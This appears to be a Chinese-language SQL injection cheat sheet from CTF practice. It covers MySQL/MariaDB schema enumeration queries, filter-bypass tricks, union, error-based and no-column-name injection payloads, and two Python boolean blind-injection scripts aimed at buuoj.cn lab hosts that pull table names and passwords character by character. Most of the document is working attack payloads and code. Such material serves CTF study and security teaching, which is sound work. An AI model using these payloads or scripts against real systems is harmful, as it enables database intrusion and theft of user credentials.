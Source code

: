 # SQli

常规方法利用information\_schema

```sql
#爆库
select database()
#爆表
select group_concat(table_name) from information_schema.tables where table_schema=<database name>
#爆字段
select group_concat(column_name) from information_schema.columns where table_name=<table name>
#爆数据
select group_concat(<column name>) from <table name>
```

mysql &gt; 5.6 版本 利用sys库

```sql
# 爆表
# schema_auto_increment_columns

select group_concat(table_name)from sys.schema_auto_increment_columns where table_schema=database()--+

# schema_table_statistics_with_buffer

select group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```

mysql &gt; 5.5 利用`innodb_table_stats`

```sql
# 爆表
select group_concat(table_name) from mysql.innodb_table_stats
```

## 技巧

* 加`()、/**/` bypass`空格`

* `like` bypass `=`

* `select .` bypass 一般是堆叠注入

  利用set

  利用handler

      1';handler `FlagHere` open;handler `FlagHere` read first;#

* 看回显点

  ```
  select 1,2,3,....
  ```

* 注释符

  * /\*\*/
  * \# -&gt; %23

  * -- 

* order by看字段数 先看看有几个回显点也可以用group by

  ```
  1' order by 3#
  ->

  1' order by 4#
  ->
  Error
  ```

* Union 联合注入

* limit

  ```
  limit i,n
  # tableName：表名
  # i：为查询结果的索引值(默认从0开始)，当i=0时可省略i
  # n：为查询结果返回的数量
  # i与n之间使用英文逗号","隔开
  ```

* 报错注入

  * `updatexml(1,concat(1,(<SQLi>)),1)`
  * `extractvalue(1,concat(1,<SQli>))`

* 无列名注入  
  考虑这样的表格，使用select 1,2,3,4,5 union select \* from persons可以得到一张新的表格

  ```
  MariaDB [test]> select * from persons;
  +------+----------+-----------+--------------+--------+
  | ID   | LastName | FirstName | Address      | Credit |
  +------+----------+-----------+--------------+--------+
  |    1 | Gates    | Bill      | Xuanwumen 10 |   NULL |
  |    1 | Gates    | Bill      | Xuanwumen 10 |   NULL |
  |    2 | Xill     | Hiler     | Like 10      | 100.67 |
  |    2 | Eki      | Hiler     | Nanfen 10    | 100.67 |
  +------+----------+-----------+--------------+--------+

  ->

  MariaDB [test]> select 1,2,3,4,5 union select * from persons;
  +------+-------+-------+--------------+--------+
  | 1    | 2     | 3     | 4            | 5      |
  +------+-------+-------+--------------+--------+
  |    1 | 2     | 3     | 4            |      5 |
  |    1 | Gates | Bill  | Xuanwumen 10 |   NULL |
  |    2 | Xill  | Hiler | Like 10      | 100.67 |
  |    2 | Eki   | Hiler | Nanfen 10    | 100.67 |
  +------+-------+-------+--------------+--------+
  ```

  然后就可以套娃拿数据了,注意`a`这个别名\(任意内容\)是必须的（新生成的表）

      MariaDB [test]> select `2` from (select 1,2,3,4,5 union select * from persons)a;          
      +-------+
      | 2     |
      +-------+
      | 2     |
      | Gates |
      | Xill  |
      | Eki   |
      +-------+

  或者也可以将数字换成别名 在反引号不可用的情况下

  ```
  MariaDB [test]> select b from (select 1,2 as b,3,4,5 union select * from persons)a;
  +-------+
  | b     |
  +-------+
  | 2     |
  | Gates |
  | Xill  |
  | Eki   |
  +-------+
  ```

* 布尔盲注

  * 利用`if() ,like,or,>,=,<`

    ```python
    #coding=utf-8
    import requests
    import urllib

    url="http://6074ac45-6b22-49a0-ae5a-38c5940e1c1e.node3.buuoj.cn/image.php"
    #sql="select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())" Result:admin,contents
    #sql="select(group_concat(column_name))from(information_schema.columns)where(table_name='admin')" Result:id,username,password,is_enqble
    #sql="select(group_concat(username))from(admin)" Result:a4341216,aebc38b6
    #sql="select(group_concat(password))from(admin)" Result:0c9bb00f,8a9b3d5a
    #sql="select(group_concat(column_name))from(information_schema.columns)where(table_name='contents')" Result:id,title,content,is_gnable
    #sql="select(group_concat(content))from(contents)"
    sql="select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())"
    ret=''

    for i in range(1,50):
      l=1
      r=255
      while(l+1<r):
          mid=(l+r)/2
          payload="if((ascii(substr(("+sql+"),"+str(i)+",1)))>"+str(mid)+",1,0)"
          #print payload
          param={"id":payload}
          #print chr(mid)
          req=requests.get(url,params=param).text
          print req
          if (len(req)>10):
              l=mid
          else :
              r=mid
      ret=ret+chr(r)
      print "Result:"+ret
    ```

  * 利用0^1^0 并采取多线程
    ```python
    #coding=utf-8
    import requests
    import threading
    url="http://d23fcdc7-5653-43bc-802e-afeb7d6efea4.node3.buuoj.cn/search.php?id="

    #sql="select(group_concat(username))from(admin)" 
    #sql="select(group_concat(password))from(admin)"
    #sql="select(group_concat(column_name))from(information_schema.columns)where(table_name='contents')"
    #sql="select(group_concat(content))from(contents)"
    #sql="select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())"
    #Result:F1naI1y,Flaaaaag
    sql="select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')"
    #Result:id,username,password
    sql="select(group_concat(password))from(F1naI1y)"
    #sql="select(group_concat(password))from(users)"
    ret=''
    def booltest(start,end):
        ret=""
        for i in range(start,end):
            l=1
            r=255
            while(l+1<r):
                mid=(l+r)/2
                payload="0^((ascii(substr(({0}),{1},1)))>{2})^0".format(sql,i,mid)
                #payload="union select * from images where id=if(1>0,1,0)#"
                #print payload
                param = {
                    "id":payload,
                }
                #print chr(mid)
                req=requests.get(url,params=param)
                if (req.status_code != requests.codes.ok):
                    continue
                #print req.text
                if (len(req.text)>720):
                    l=mid
                else :
                    r=mid
            ret=ret+chr(r)
            print(threading.current_thread().name+"working:"+ret) 
        print(threading.current_thread().name+ret)
    


    thr3 = threading.Thread(target=booltest, args=(170, 219),name="3")


    thr3.start()
    ```



